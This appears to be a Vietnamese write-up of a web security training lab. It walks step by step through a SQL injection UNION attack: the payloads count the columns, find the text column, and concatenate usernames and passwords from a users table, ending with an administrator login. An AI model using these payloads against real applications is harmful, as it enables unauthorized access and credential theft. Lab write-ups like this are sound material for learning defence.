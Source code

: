 ## SQLi UNION attack, retrieving multiple values in a single column

1. Lab cho ta biết rằng trong database có một bảng ``users`` chứa username và password

2. Xác định số cột trong bảng category bằng cách sử dụng lần lượt các câu truy vấn UNION SELECT gắn giá trị ``null`` cho từng cột
	Payload: 
	```' UNION SELECT null --```
	```' UNION SELECT null, null --```
-> Xác định được số cột trong bảng category là 2

3. Tiếp theo xác định cột chứa dữ liệu dạng string 
	 Payload: 
	```' UNION SELECT 'test',null --```
	```' UNION SELECT null, 'test' --```

![Img1](\asset/../img/determine_col_contain_text.png)

4. Qua đó ta biết được rằng cột 2 có kiểu string. Do chỉ có cột 2 trả về string nên ta sẽ tiến hành nối chuỗi username và password trong 1 câu truy vấn
	Payload:
	```' UNION SELECT null, username || password from users--```

![Img2](\asset/../img/result.png)

5. Login với ``administrator:s8i5jvyggjzv1nvihot0``

![Img3](\asset/../img/done.png)